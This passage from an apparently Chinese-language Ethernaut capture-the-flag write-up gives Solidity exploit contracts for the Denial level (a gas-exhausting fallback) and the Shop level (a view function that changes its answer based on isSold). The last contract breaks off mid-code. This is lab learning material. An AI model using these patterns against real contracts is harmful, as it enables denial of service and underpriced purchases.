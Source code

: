 ### Exploit
新版本好像不能這樣搞了
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract DenialAttack {

    fallback() external payable {
        // consume all the gas
        assert(false);
    }
}
```
or
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DenialAttack {

    fallback() external payable {
        while(true) {}
    }
}
```


設定 parnter 
```javascript
await contract.setWithdrawPartner(exp)
```

## 21. Shop
目標 `price < 100`

與 11. 類似，但 `price()` 有 `view` 屬性，調用 view function，預設使用 staticcall
```
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```
line 4 需回傳 > 100，line 6 需回傳 < 100，可以藉由 `isSold` 的改變判斷

### Exploit
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
}

contract ShopAttack {

    function price() external view returns (uint) {
        return IShop(msg.sender).isSold() ? 1 : 100;
    }

```